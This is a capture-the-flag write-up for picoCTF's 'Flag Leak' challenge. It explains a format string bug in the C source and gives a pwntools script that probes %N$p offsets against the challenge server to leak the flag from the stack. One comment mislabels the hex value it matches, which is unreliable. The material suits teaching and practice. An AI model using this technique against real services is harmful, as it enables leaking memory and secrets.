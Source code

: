 # Flag Leak

Challenge Description:

> Story telling class 1/2

> I'm just copying and pasting with this program. What can go wrong?

> Hint1 : Format Strings

## Analyzing code and creating exploit

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7cdf03860c5c78d6e375e91d88a2b05b28389fd0, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

The readflag function takes the flag from `flag.txt` and writes it to a buffer(flag) in the stack .We can read in 127 characters into the story buffer and this is printed out using printf without any format specifiers.This can lead to a format string attack as we can provide the format specifiers like `%s`,`%p` in the buffer.This leads to printf leaking values from the stack so that we can read the flag.

```c
void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

We use `%p` to read hex values from the stack because `%s` will require addresses to be present in the stack and will cause segmentation faults most of the time.

To read a specific offset into the stack,we can use `%{number}$p`.Eg: `%5$p`

We need to find the offset where the flag is present in the stack. To find the offset,we start from %1$p till we find a number which has `flag` in little endian.When we find this,we know that the flag starts here.

```python
from pwn import *

def byte2str(input):
	return str(input,"utf-8")

elf = ELF("./vuln",checksec=False)
#p = elf.process()

pico = "0x6f636970"	# 'galf' ('flag' in little endian)
var = True
iterator = 1

while(var):
	p = remote("saturn.picoctf.net", 63563)
	
	pattern = bytes(f'%{iterator}$p' , "utf-8")
	payload = pattern

	p.sendline(payload)

	p.recvline()
	
	output = byte2str(p.recvline()).strip()
	print(f"Iter = {iterator} and output = {output}")

	if (output == pico):
		print(f"Found offset = {iterator}")
		break
	iterator = iterator + 1

print("Finished Looping")

```
Running the above script gives us the offset as 36 as shown below.

![flag offset in stack](offset.PNG)

Now,we just need to read more offsets from 36 to read the complete flag as one offset will only give us 4 bytes but the flag is around 32-40 bytes.
So,in the below screenshot,we start the server and give in 10 offsets from 36-46 to read around 40 bytes from the stack.

![flag leak in hex](leak_flag.PNG)

Now,we just have to swap the endianess and convert the hex to ascii.This can be easily done using cyberchef.

![cyberchef hex to ascii](cyberchef_flag_to_ascii.PNG)
